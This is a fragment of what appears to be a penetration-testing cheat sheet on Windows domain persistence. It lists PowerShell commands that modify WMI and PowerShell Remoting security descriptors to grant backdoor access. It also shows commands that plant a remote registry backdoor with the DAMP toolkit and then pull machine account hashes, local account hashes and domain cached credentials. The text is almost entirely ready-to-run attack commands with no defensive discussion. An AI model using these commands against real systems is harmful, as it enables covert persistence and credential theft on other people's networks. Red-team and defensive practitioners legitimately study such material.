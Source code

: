 #### On remote machine remove permissions
```
Set-RemoteWMI -Username <USERNAME> -Computername <COMPUTERNAME> -namespace ‘root\cimv2’ -Remove -Verbose
```

#### Check WMI permissions
```
Get-wmiobject -Class win32_operatingsystem -ComputerName <COMPUTERNAME>
```

### SecurityDescriptor - Powershell Remoting
```
. ./Set-RemotePSRemoting.ps1
```

#### On a local machine
```
Set-RemotePSRemoting -Username <USERNAME> -Verbose
```

#### On a remote machine without credentials
```
Set-RemotePSRemoting -Username <USERNAME> -Computername <COMPUTERNAME> -Verbose
```

#### On a remote machine remove permissions
```
Set-RemotePSRemoting -Username <USERNAME> -Computername <COMPUTERNAME> -Remove
```

### SecurityDescriptor - Remote Registry
Using the DAMP toolkit
```
. ./Add-RemoteRegBackdoor
. ./RemoteHashRetrieval
```

#### Using DAMP with admin privs on remote machine
```
Add-RemoteRegBackdoor -Computername <COMPUTERNAME> -Trustee <USERNAME> -Verbose
```

#### Retrieve machine account hash from local machine
```
Get-RemoteMachineAccountHash -Computername <COMPUTERNAME> -Verbose
```

#### Retrieve local account hash from local machine
```
Get-RemoteLocalAccountHash -Computername <COMPUTERNAME> -Verbose
```

#### Retrieve domain cached credentials from local machine
```
Get-RemoteCachedCredential -Computername <COMPUTERNAME> -Verbose
```
